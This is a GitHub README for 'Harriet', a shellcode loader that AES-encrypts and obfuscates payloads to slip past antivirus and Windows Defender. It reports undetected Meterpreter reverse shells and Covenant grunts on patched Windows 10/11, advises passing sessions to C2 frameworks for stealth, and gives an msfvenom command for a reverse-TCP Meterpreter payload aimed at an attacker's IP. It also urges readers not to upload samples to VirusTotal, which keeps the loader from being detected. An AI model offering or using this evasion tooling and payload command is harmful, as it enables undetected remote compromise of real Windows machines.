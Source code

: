 ![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender.

<img width="779" alt="Screen Shot 2022-10-01 at 4 52 22 PM" src="https://user-images.githubusercontent.com/76174163/193458862-256141c2-7696-40aa-a272-c7db0635c453.png">

 At the time of writing, this is only detected by 1 vendor per AntiScan.me and will give you an undetected Meterpreter reverse shell. As we all know, Meterpreter is heavily signatured so you will have to play with the features (getsystem, hashdump,ect) to see what gets caught and what doesn't. I would recommend using my Covenant Randomizer script with this to get an initial access executable and then session pass to MSF, Sliver or another C2 for better OPSEC.

The executables got past Windows Defender on both fully patched Windows 10/11 machines with the meterpreter reverse tcp payload. 

![Screen Shot 2022-10-02 at 1 01 50 PM](https://user-images.githubusercontent.com/76174163/193466612-b08f97cd-83bf-4bdb-905e-8f4ffc1a2e9e.png)

The executable also returned a Covenant grunt without detection. 

![Screen Shot 2022-10-02 at 1 07 57 PM](https://user-images.githubusercontent.com/76174163/193466844-35b0f9b2-50c1-4fb3-aa40-3ce6f32a577e.png)


There is no fancy process injection, it's just a straight AES encrypted executable. I will be working to implement other templates into the script in the future (XOR string encryption, Process Injection, ect).  
 
The majority of this script was taken from the Sektor 7 Malware Development course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 


**Usage:** 

Create Your Payload
**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script
**bash Harriet.sh **

Fill In The Values As Prompted

Enjoy and don't upload to Virus Total!!!!!
